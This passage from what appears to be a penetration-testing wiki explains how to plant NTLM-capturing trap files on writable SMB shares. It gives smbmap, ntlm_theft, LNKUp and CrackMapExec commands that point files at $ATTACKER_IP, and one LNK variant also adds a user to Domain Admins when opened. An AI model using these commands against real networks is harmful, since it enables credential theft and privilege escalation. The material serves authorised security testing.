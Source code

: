 ```bash
smbmap -d "domain" -u "user" -p "password" --host-file targets.txt
```
{% endhint %}

{% hint style="info" %}
Shortcut file names can be preprended with a `@` symbol to put them on top of the share, to make sure the file explorer has to parse it.
{% endhint %}

{% hint style="success" %}
The [ntlm\_theft](https://github.com/Greenwolf/ntlm\_theft) (Python) tool can be used to generate multiple file types at once (lnk, scf, url, docx, xslx, htm, xml, pdf, ...).

```bash
ntlm_theft.py --generate all --server $ATTACKER_IP --filename "@FILENAME"
```
{% endhint %}

{% tabs %}
{% tab title=".lnk" %}
An LNK shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

> Shortcuts with the .lnk extension have a lot of beneficial properties when it comes to stealth; [they are an exception](https://en.wikipedia.org/wiki/Shortcut\_\(computing\)#Microsoft\_Windows) from the Windows setting to show or hide file extensions. Even when “hide known file extensions” is disabled, explorer.exe will only show the name, allowing us to let it end in “.jpeg”. A major downside is that they only allow 1024 characters for the whole command they execute. ([source](https://hatching.io/blog/lnk-hta-polyglot/))

[LNKUp](https://github.com/Plazmaz/LNKUp) (Python) is a great tool to generate malicious LNK shortcuts. They can be set with a remote icon file to generate outgoing SMB traffic and authentications but can also be set to execute commands when opened (i.e. double-clicked).

```bash
# Simple SMB trap with remote icon file
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk'

# SMB trap + command execution
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk' --execute "net group 'Domain Admins' Pentester01 /domain /add"
```

{% hint style="info" %}
**Advanced traps**

* LNK files can be mixed with some VBA: [Pwned by Shortcut](https://medium.com/secjuice/pwned-by-a-shortcut-b21473970944)
* LNK files can be mixed with some HTA: [LNK HTA Polyglot](https://hatching.io/blog/lnk-hta-polyglot/)
{% endhint %}

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to automatically push LNK files to a writeable share.

```bash
# Creation & upload
cme smb "target" -d "domain" -u "user" -p "password" -M slinky -O NAME="SHARE" SERVER="ATTACKER_IP"

# Cleanup
cme smb "target" -d "domain" -u "user" -p "password" -M slinky -O NAME="SHARE" SERVER="ATTACKER_IP" CLEANUP=True
```
{% endtab %}
